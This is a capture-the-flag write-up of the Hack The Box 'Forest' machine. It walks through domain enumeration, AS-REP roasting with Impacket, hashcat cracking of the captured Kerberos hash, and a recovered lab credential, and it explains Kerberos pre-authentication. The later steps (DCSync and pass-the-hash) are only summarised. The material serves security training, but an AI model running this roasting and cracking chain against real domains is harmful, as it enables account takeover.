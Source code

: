 # Forest

- [Forest](#forest)
  - [Recon](#recon)
  - [User Compromise](#user-compromise)
    - [Crack the Hash](#crack-the-hash)
    - [Kerberos Pre-auth](#kerberos-pre-auth)
  - [Privilege Escalation](#privilege-escalation)
  - [Root](#root)
  - [Resources](#resources)

## Recon

I started with nmap, and if the box names wasn't enough of a hint, surprise, It's a domain controller.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p- --min-rate=10000 -T5 -o nmap_all forest
```

![Alt text](/forest/nmap-1.jpg "Nmap Output")

Next, I tried to enumerate all that is SMB.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p445 forest --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse
```

The shares were all of the standard Windows/DC shares and I didn't have access to any of them. I was able to get a list of groups and user accounts. 

![Alt text](../forest/nmap-users.jpg "User snip")

The user account list contained a few interesting users:

| User                     | Flags                                                                          |
| ------------------------ | ------------------------------------------------------------------------------ |
| HTB\$331000-VK4ADACQNUCA | Password Expired, Account disabled, Password not required, Normal user account |
| HTB\andy                 | Password does not expire, Normal user account                                  |
| HTB\lucinda              | Password does not expire, Normal user account                                  |
| HTB\mark                 | Password does not expire, Normal user account                                  |
| HTB\santi                | Password does not expire, Normal user account                                  |

There were also several mailbox accounts for Exchange. 

But I still don't have anything useful to go off of. Next, I poked around with rpcclient.

```bash
┌──(milt0r㉿kali)-[~/htb/forest/ldap]
└─$ rpcclient -U "" -N 10.10.10.161
```

Here, I get a little different list. It includes **svc-alfresco** and **sebastien**.

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Enumerate domain groups, and one of them stands out as interesting:

```bash
rpcclient $> enumdomgroups
group:[Privileged IT Accounts] rid:[0x47d]
```

Examine that group membership and it points me to "Service Accounts" which contains our service account. Seems to be what we're looking for. 

```bash
rpcclient $> querygroupmem 0x47d
        rid:[0x47c] attr:[0x7]
rpcclient $> queryuser 0x47c
result was NT_STATUS_NO_SUCH_USER
rpcclient $> querygroup 0x47c
        Group Name:     Service Accounts
        Description:
        Group Attribute:7
        Num Members:1
rpcclient $> querygroupmem 0x47c
        rid:[0x47b] attr:[0x7]
rpcclient $> queryuser 0x47b
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
```

Next, I tried ldapdomaindump and ldeep. ldeep returned nothing, and ldapdomaindump encountered an exception that looks to be a [known issue](https://github.com/dirkjanm/ldapdomaindump/issues/26) with that tool and this box. 


From here I started scrolling through the PayloadsAllTheThings AD Attacks article looking for something useful that didn't require creds. Eventually, I landed on Impacket's **GetNPUsers.py.** If you read the section on that tool (link below), it coincidentally mentions svc-alfresco in the example. 

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-10-16 20:10:06.352042  2019-09-23 04:09:47.931194  0x410200
```

Great. 

## User Compromise

Next, I dump the TGT for the service account. 

```
┌──(tom㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-alfresco, getting its TGT
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e
```

### Crack the Hash

I like putting my RTX 3080 to use, so I typically run hashcat on Windows. 

```powershell
PS D:\htb\tools\hashcat\hashcat-6.2.1> .\hashcat.exe -m18200 -a0 hash.txt D:\htb\tools\wordlists\rockyou.txt
hashcat (v6.2.1) starting...

$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e:s3rvice
```

**svc-alfresco:s3rvice**

### Kerberos Pre-auth

I recall in my Active Directory days *rarely* seeing applications running on systems in enterprise enviorments that required this to be turned off for accounts. In all of the AD risk assessments I performed over the years, I think I saw just a handfull of environments with pre-auth disabled. Why's it important? 

**TL;DR:** It prevents offline attacks against the TGT. 

When pre-auth is enabled, the Key Distribution Center (KDC) challenges the client to use their password hash to encrypt a timestamp. If the KDC, having a copy of the user's password hash, can decrypt and validate that it's within the acceptable range (default +/- five minutes), it'll respond with the ticket-granting ticket (TGT). The TGT is encrypted with the user's password hash. The client can decrypt the TGT only if it has the password.

If we disable the pre-authentication requirement, the KDC returns the TGT to the caller. This means that any attacker can get the TGT and attempt to crack the password offline, which is what we accomplished here. 

## Privilege Escalation



> **Summary:** Leverage over-permissioned user to escalate privileges and dump NTDS password hashes via Mimikatz DCSync.

## Root

> **Summary:** Use stolen hashes and psexec.py to pass-the-hash and get Administrator shell. 

## Resources

- [PayloadsAllTheThings AD Attacks ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [LDAP Filter Ref](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)